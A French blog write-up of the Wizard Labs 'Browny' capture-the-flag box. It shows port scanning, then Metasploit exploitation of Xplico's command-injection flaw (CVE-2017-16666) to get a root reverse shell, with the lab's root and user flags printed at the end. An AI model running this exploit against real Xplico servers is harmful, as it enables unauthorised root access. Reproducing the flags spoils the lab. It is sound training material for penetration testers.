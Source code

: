 ```yaml
---
title: Solution du CTF Browny de Wizard-Labs
date: 2019-05-21 18:05:00
tags: [CTF, WizardLabs]
---
```


Chocoooooo
----------

*Browny* est un CTF de la plateforme *Wizard Labs*. Cette box donnée à une difficulté très faible (1/10) est basée sur Linux.  

On peut lancer un masscan pour lister les ports en écoute :  

```shellsession
$ sudo masscan -i tun0 -p1-65535 --rate 100 10.1.1.17

Starting masscan 1.0.4 (http://bit.ly/14GZzcT) at 2019-02-23 14:32:37 GMT
 -- forced options: -sS -Pn -n --randomize-hosts -v --send-eth
Initiating SYN Stealth Scan
Scanning 1 hosts [65535 ports/host]
Discovered open port 80/tcp on 10.1.1.17                                       
Discovered open port 9876/tcp on 10.1.1.17                                     
Discovered open port 30005/tcp on 10.1.1.17                                    
Discovered open port 30001/tcp on 10.1.1.17                                    
Discovered open port 22/tcp on 10.1.1.17                                       
Discovered open port 30004/tcp on 10.1.1.17                                    
Discovered open port 30003/tcp on 10.1.1.17                                    
Discovered open port 30002/tcp on 10.1.1.17
```

On peut ensuite récupérer cet output pour extraire la liste des ports et les rebalancer avec Nmap. La commande suite va formater cette liste de ports en les séparant avec des virgules :  

```bash
$ grep Disco output.txt | cut -d' ' -f4| cut -d/ -f1 |paste -d ',' -s
80,9876,30005,30001,22,30004,30003,30002
```

En fouillant sur le port 80 avec un dirbuster on ne découvre ni dossier ni script PHP :(  

En revanche le service en écoute sur le port 9876, anoncé par Nmap comme un *Apache Hadoop* est en réalité un [Xplico](https://www.xplico.org/) qui est une appli web pour l'analyse forensics réseau.  

On passe ainsi un fichier PCAP et on peut l'explorer via *Xplico*. J'avais déjà utilisé ce soft qui est assez agréable d'utilisation.  

Bien sûr ici on est principalement intéressés par les vulnérabilités du logiciel plutôt que ses fonctionnalités.  

Metasploit dispose d'un module d'attaque dont voici la description et les payloads possibles :  

```plain
Description:
  This module exploits command injection vulnerability. 
  Unauthenticated users can register a new account and then execute a 
  terminal command under the context of the root user. The specific 
  flaw exists within the Xplico, which listens on TCP port 9876 by 
  default.

Compatible Payloads
===================

   Name                     Disclosure Date  Rank    Check  Description
   ----                     ---------------  ----    -----  -----------
   cmd/unix/bind_awk                         normal  No     Unix Command Shell, Bind TCP (via AWK)
   cmd/unix/bind_netcat                      normal  No     Unix Command Shell, Bind TCP (via netcat)
   cmd/unix/generic                          normal  No     Unix Command, Generic Command Execution
   cmd/unix/reverse_awk                      normal  No     Unix Command Shell, Reverse TCP (via AWK)
   cmd/unix/reverse_netcat                   normal  No     Unix Command Shell, Reverse TCP (via netcat)
```

L'exploitation n'a pas été à la hauteur de nos espérances :  

```plain
msf5 exploit(linux/http/xplico_exec) > run

[*] Started reverse TCP handler on 10.254.0.29:4444 
[*] Initiating new session on server side
[*] Registering a new user
[+] New user successfully registered
[*] Username: metnhsrpiveb
[*] Password: igMHipqNbEwaFoBVDqYFPXXQbEkIBCZV
[*] Calculating em_key code of the user
[*] Activating user with em_key = 3ad86d0ada1f91ab6357ca774ad0c2bf
[-] Exploit aborted due to failure: unknown: Could not activated our user. Target may not be vulnerable.
[*] Exploit completed, but no session was created.
```

Il est temps de ce pencher plus sur les détails de la vulnérabilité pour déterminer ce qui cloche.  

[L'article original](https://pentest.blog/advisory-xplico-unauthenticated-remote-code-execution-cve-2017-16666/) traitant de la faille mentionne une variable qu'il faut plus ou moins deviner car elle correspond au temps Unix et est utilisée pour réussir l'exploitation.  

L'exploit utilise donc le temps qu'il croit être juste... en gros il faut que toute l'exploitation se fasse dans une fenêtre d'une seconde pour ne pas être embêté :p  

Du coup c'est principalement le manque de chance... bref on relance jusqu'à ce que...  

```plain
[*] Started reverse TCP handler on 10.254.0.29:4444 
[*] Initiating new session on server side
[*] Registering a new user
[+] New user successfully registered
[*] Username: svfzydcg
[*] Password: apywpCMpmUjHBHhHnHRzIAMuNJNggYWZ
[*] Calculating em_key code of the user
[*] Activating user with em_key = 2edb880cb905936ab894e54db23abe18
[+] User successfully activated
[*] Authenticating with our activated new user
[+] Successfully authenticated
[*] Creating new case
[+] New Case successfully creted. Our pol_id = 7
[*] Creating new xplico session for pcap
[+] New Sols successfully creted. Our sol_id = 7
[*] Uploading malformed PCAP file
[+] PCAP successfully uploaded. Pcap parser is going to start on server side.
[*] Parsing has started. Wait for parser to get the job done...
[*] Exploit completed, but no session was created.
```

C'est mieux mais ça n'aboutit toujours pas. Il s'est avéré que l'upload des fichiers ne fonctionnait plus sur la machine pour une raison inconnue. Un reset de la machine plus tard :  

```plain
msf5 exploit(linux/http/xplico_exec) > run

[*] Started reverse TCP handler on 10.254.0.29:4444
[*] Initiating new session on server side
[*] Registering a new user
[+] New user successfully registered
[*] Username: qvxtanwgruta
[*] Password: KjixXsyUFbhjRiBSITzWbDjciGBsJrOP
[*] Calculating em_key code of the user
[*] Activating user with em_key = 027c6641ad1e36ebddf3ee5cb384e6a7
[+] User successfully activated
[*] Authenticating with our activated new user
[+] Successfully authenticated
[*] Creating new case
[+] New Case successfully creted. Our pol_id = 5
[*] Creating new xplico session for pcap
[+] New Sols successfully creted. Our sol_id = 5
[*] Uploading malformed PCAP file
[+] PCAP successfully uploaded. Pcap parser is going to start on server side.
[*] Parsing has started. Wait for parser to get the job done...
[+] We are at PCAP decoding phase. Little bit more patience...
[+] We are at PCAP decoding phase. Little bit more patience...
[+] We are at PCAP decoding phase. Little bit more patience...
[*] Command shell session 1 opened (10.254.0.29:4444 -> 10.1.1.17:57091) at 2019-02-23 16:33:59 +0100

id
uid=0(root) gid=0(root) groups=0(root)
pwd
/opt/xplico/bin
cd /root
ls
root.txt
cat root.txt
02240138a64d38ed22526a4a0f1ea9a1
ls /home
granit
cd /home/granit
cat user.txt
c553f25184be6a0e81be6cfc000d5b20
```

CTF parfait pour le 4h.  


*Published May 21 2019 at 18:05*
